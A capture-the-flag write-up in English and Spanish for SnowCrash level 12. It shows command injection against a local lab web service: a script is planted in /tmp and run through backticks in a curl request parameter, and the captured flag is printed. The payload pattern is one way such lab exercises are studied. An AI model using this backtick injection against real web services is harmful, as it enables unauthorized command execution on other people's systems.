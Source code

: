 # Flag 12

## Tools Used:

* Shell builtins (`echo`, `chmod`, `mv`)
* `curl`
* Command injection via backticks in a web parameter

## Process:

1. Create a small executable file (`EXP`) containing the command to retrieve and broadcast the flag:

   ```bash
   level12@SnowCrash:~$ echo "getflag | wall" > EXP
   level12@SnowCrash:~$ chmod 777 EXP
   ```
2. Move this file into a directory that the web‑service will execute from:

   ```bash
   level12@SnowCrash:~$ mv EXP /tmp/
   ```
3. Exploit the web service listening on port **4646** by injecting your script via backticks in the `x` parameter. The wildcard (`/*/EXP`) ensures the correct path is matched:

   ```bash
   level12@SnowCrash:~$ curl 'localhost:4646/?x=`/*/EXP`'
   ```
4. The service runs the injected script as the **flag12** user, causing it to broadcast the flag:

   ```
   Broadcast Message from flag12@Snow
           (somewhere) at 13:12 ...

   Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
   ```

---

# Flag 12

## Herramientas Utilizadas:

* Comandos de Shell (`echo`, `chmod`, `mv`)
* `curl`
* Inyección de comandos mediante backticks en un parámetro web

## Proceso:

1. Creamos un pequeño archivo ejecutable (`EXP`) con el comando para obtener y difundir la flag:

   ```bash
   level12@SnowCrash:~$ echo "getflag | wall" > EXP
   level12@SnowCrash:~$ chmod 777 EXP
   ```
2. Movemos este archivo a un directorio que el servicio web ejecuta:

   ```bash
   level12@SnowCrash:~$ mv EXP /tmp/
   ```
3. Explotamos el servicio web en el puerto **4646** inyectando nuestro script con backticks en el parámetro `x`. El comodín (`/*/EXP`) asegura que se ubique el archivo correctamente:

   ```bash
   level12@SnowCrash:~$ curl 'localhost:4646/?x=`/*/EXP`'
   ```
4. El servicio ejecuta el script como el usuario **flag12**, provocando la difusión de la flag:

   ```
   Broadcast Message from flag12@Snow
           (somewhere) at 13:12 ...

   Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
   ```

---

## Scripts Used:

```bash
# /tmp/EXP
getflag | wall
```

## Flag:

```
g1qKMiRpXf53AWhDaU7FEkczr
```
